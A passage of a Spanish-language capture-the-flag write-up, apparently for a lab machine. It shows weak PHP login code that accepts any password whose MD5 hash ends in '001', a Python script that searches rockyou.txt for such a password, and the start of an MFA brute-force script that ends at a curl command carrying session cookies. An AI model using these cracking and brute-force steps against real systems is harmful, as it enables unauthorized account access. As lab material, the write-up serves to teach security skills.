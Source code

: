 ```php
<?php
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 
```
El archivo functions.phps se encarga de la validación de sesión
- is_valid_user() Devuelve uno si el valor hexadecimal del nombre de usuario enviado coincide con el valor hexadecimal definido
- is_valid_pwd() Comprueba si los últimos tres caracteres del hash MD5 de la contraseña enviada son '001'
```php
 <?php
include('config.php');

function is_valid_user($user) {
    $user = bin2hex($user);

    return $user === LOGIN_USER;
}

// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);

    return substr($hash, -3) === '001';
} 
```


# Foothold
El primer paso es convertir la cadena hexadecimal del usuario a ASCII para obtener el nombre de usuario
```bash
echo "6a61736f6e5f746573745f6163636f756e74" | xxd -r -p
jason_test_account
```
Para descubrir la contraseña, dado que sabemos que el hash MD5 termina en '001', escribimos un pequeño script para codificar las palabras de rockyou.txt y verificar si terminan en '001'
```python
cat hashing              
import hashlib
f = open("/usr/share/wordlists/rockyou.txt", encoding="ISO-8859-1")

while True:
        i = f.readline()
        i = i[0:len(i)-2]
        hash = hashlib.md5(i.encode()).hexdigest()

        if hash[-3:] == "001":
                print(i)
                break

```
Una vez que ejecutemos el script, nos dará la contraseña
```bash
python3 hashing
violet
```
Nos enfrentamos a una autenticación de doble factor. Para abordar esto, ejecutamos el siguiente script de Python que llevará a cabo un ataque de fuerza bruta para encontrar el código
```bash
└─$ cat mfa                                 
import requests

cmd = 'curl --cookie "user=jason_test_account" --cookie "pwd=violet" http://10.10.118.236/console/mfa.php'
```